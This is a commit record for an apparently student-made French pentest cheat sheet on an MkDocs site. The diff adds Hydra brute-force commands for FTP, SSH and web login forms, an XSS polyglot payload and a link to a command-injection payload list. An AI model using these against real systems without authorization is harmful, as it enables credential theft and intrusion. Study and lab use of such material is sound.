

Before and after one commit to NathanEtinzon/CEFIM, an MkDocs documentation site: the page built from docs/PENTEST_CHEAT_SHEET.md, in a window 1280 px wide and 1400 px high, scrolled down 4959 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 5589 px from its top, so only the background shows below that.

Commit message:
Ajout hydra

```diff
--- a/docs/PENTEST_CHEAT_SHEET.md
+++ b/docs/PENTEST_CHEAT_SHEET.md
@@ -169,6 +169,26 @@
 **Crackage de hash**
 `john --wordlist=<WORDLIST> <FICHIER>`
 
+## Hydra
+
+**Paramètres**
+>- `-l <UTILISATEUR>`
+>- `-L <LISTE UTILISATEUR>`
+>- `-P <WORDLIST>`
+>- `-t <NOMBRE DE THREAD> (16 par défaut)`
+>- `-V (mode verbeux)`
+
+**FTP**
+`hydra -l <UTILISATEUR> -P <WORDLIST> -t 64 ftp://<IP>`
+
+**SSH**
+`hydra -l <UTILISATEUR> -P <WORDLIST> <IP> -t 64 ssh`
+
+**Formulaire web *POST***
+`hydra <UTILISATEUR> <WORDLIST> <IP> http-post-form "<CHEMIN>:<IDENTIFIANT>:<REPONSE_INVALIDE>"`
+*Exemple :*
+`hydra -l <UTILISATEUR> -P <WORDLIST> <IP> http-post-form "/:username=^USER^&password=^PASS^:F=Your username or password is incorrect"`
+
 ## Samba
 
 > **Accès**
@@ -185,3 +205,13 @@
 `msfconsole`
 `search <KEYWORD>`
 `use <NOMBRE>`
+
+## XSS
+
+**XSS Polyglot Payload**
+jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
+
+## Injection de commande
+
+**Cheat Sheet**
+[Payload](https://github.com/payloadbox/command-injection-payload-list)
```
